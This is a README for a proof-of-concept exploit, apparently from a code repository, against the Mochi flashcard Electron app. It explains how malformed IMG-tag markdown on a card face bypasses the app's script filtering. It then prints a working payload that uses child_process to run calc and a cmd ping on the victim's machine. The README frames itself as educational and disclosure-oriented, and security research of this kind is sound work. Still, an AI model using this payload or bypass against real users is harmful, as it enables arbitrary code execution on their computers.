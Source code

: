 # Mochi RCE Proof-of-Concept

This vulnerability stems from inadequate markdown parsing in the handling of card faces, along with misconfiguration of the Electron application. Maliciously crafted markdown content within these cards can trigger JavaScript execution. Exploiting this XSS flaw, attackers can then escalate the vulnerability to spawn child processes from within the application, achieving RCE by executing arbitrary code via the Electron app. It's important to emphasize that the exploration of this vulnerability and its technical details are intended solely for educational purposes, aimed at fostering a deeper understanding of security challenges within web applications. Any attempt to exploit these vulnerabilities without proper authorization is strongly discouraged and may be illegal.

## Technical information

This XSS vector abuses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. Since Mochi cards have protection against embedding `<script>` tags & event attributes, I used this work around to bypass their markdown parsing.

Here is an example card face input, a .mochi project which executes the following can be found the in proof-of-concept folder (example_payload.mochi):
```html
<IMG id=1337 """><SCRIPT>
require('child_process').exec('calc');
require('child_process').exec('start cmd /c ping 1.1.1.1');
alert('rce poc');
</SCRIPT>"\>
```

Allowing the `child_process` module in a web application's context can pose serious security risks, as it grants the ability to execute arbitrary system commands. In this case, leading to remote code execution.

*tl;dr:
Drink all the booze, hack all the things.*